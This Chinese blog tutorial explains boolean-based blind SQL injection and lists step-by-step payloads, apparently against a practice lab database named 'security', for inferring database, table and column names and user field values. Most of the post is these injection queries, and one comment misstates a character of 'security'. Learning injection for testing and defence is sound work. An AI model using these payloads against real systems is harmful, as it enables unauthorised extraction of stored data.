 ```yaml
---
title: 布尔注入与脚本自动化的简单实现
toc: true
categories: Tech Blog
abbrlink: 56d1200a
date: 2023-07-23 00:00:00
updated: 2023-07-23 00:00:00
---
```


## 布尔注入简介

在注入过程中我们只能直接知道注入成功与否而不知道注入得到的回显甚至都不能直接知道注入是否成功的注入叫做盲注。盲注可能是真的是在完全黑盒情况下完全盲注，也可能通过侧信道攻击通过一些特殊手段能判断出命令执行是否成功，例如时间盲注。
<!--more-->
## 简单原理介绍

在我们能通过某种方式判断注入执行结果成功与否，例如Web页面返回True或False时，我们可以使用and,or关键字配合一些语句得到后台数据信息，包括但不限于:

- ascii()
返回字符ASCII码值
- length()
返回字符串长度
- left()
返回从左到右截取的一定长度的字符串
- substr()
返回从指定位置开始截取的一定长度的子字符串
我们可以在一句总是正确的SQL语句后使用and关键字或者在一句总是错误的语句后使用or关键字配合这些语句，通过组合后的语句的执行结果判断我们拼凑上去的语句的执行结果。在这一点的基础上，我们可以做到得到数据库名表名列名字段名等等效果

## 一般注入流程

- 求当前数据库的数据库名长度

        -- length 返回长度
        -- 8是当前数据库'security'的长度
        SELECT * from users WHERE id = 1 and (length(database())=8)
        -- 也可以使用 > 、< 符号来进一步缩小范围
        SELECT * from users WHERE id = 1 and (length(database())>8)
        -- 当长度正确就页面就显示正常，其余页面则显示错误
        -- substr 返回子字符串
        -- 8是当前数据库'security'的长度 ，从第8个开始，取1位，则是'r'
        -- 如果pos为9 那么开始位置大于字符串长度，ascii函数处理后将变成false
        -- and 后只要不为 0, 页面都会返回正常
        SELECT * from users WHERE id = 1 and ascii(substr(database(),8,1))
- 求当前数据库名

        -- 从左至右截取一个字符
        SELECT * from users WHERE id = 1 and (left(database(),1)='s')
        -- 从左只有截取两个字符
        SELECT * from users WHERE id = 1 and (left(database(),2)='se')

        SELECT * from users WHERE id = 1 AND (ASCII(SUBSTR(database(),1,1)) = 115)
        SELECT * from users WHERE id = 1 AND (ASCII(SUBSTR(database(),2,1)) = 101)

- 求当前数据库中表的个数

        SELECT * from users WHERE id = 1 AND 
        (select count(table_name) from information_schema.`TABLES` where table_schema = database()) = 4
- 求当前数据库表的表名长度

        -- length
        SELECT * from users WHERE id = 1 
        AND (LENGTH((select table_name from information_schema.`TABLES` where table_schema = database() LIMIT 0,1))) = 6
        
        -- substr
        SELECT * from users WHERE id = 1 
        AND ASCII(SUBSTR((select table_name FROM information_schema.`TABLES` where table_schema = database() LIMIT 0,1),6,1))

- 求当前数据库表的表名

        SELECT * from users WHERE id = 1 
        AND ASCII(SUBSTR((select table_name FROM information_schema.`TABLES` where table_schema = database() LIMIT 0,1),1,1)) = 101 -- e

        SELECT * from users WHERE id = 1 
        AND ASCII(SUBSTR((select table_name FROM information_schema.`TABLES` where table_schema = database() LIMIT 0,1),2,1)) = 109 -- m

- 求指定表中列的数量

        SELECT * from users WHERE id = 1 
        AND (select count(column_name) from information_schema.columns where table_name = "users") = 3

- 求指定表中列的长度

        SELECT * from users WHERE id = 1 
        AND ASCII(SUBSTR((select column_name from information_schema.columns where table_name = "users" limit 0,1),2,1))

- 求指定表中的列名

        SELECT * from users WHERE id = 1 
        AND ASCII(SUBSTR((select column_name from information_schema.columns where table_name = "users" limit 0,1),1,1)) = 105

- 求指定表中某字段的数量

        SELECT * from users WHERE id = 1 
        AND (select count(username) from users) = 13
- 求字段长度

        SELECT * from users WHERE id = 1 
        AND ASCII(SUBSTR((select username from users  limit 0,1),4,1))
- 求字段名

        SELECT * from users WHERE id = 1 
        AND ASCII(SUBSTR((select username from users  limit 0,1),1,1))  = 68

## 布尔注入的自动化

由于猜解后端信息需要执行大量的SQL注入语句，因此我们常常编写脚本自动完成这一重复性工作，例如**SQLMAP一把梭** :P
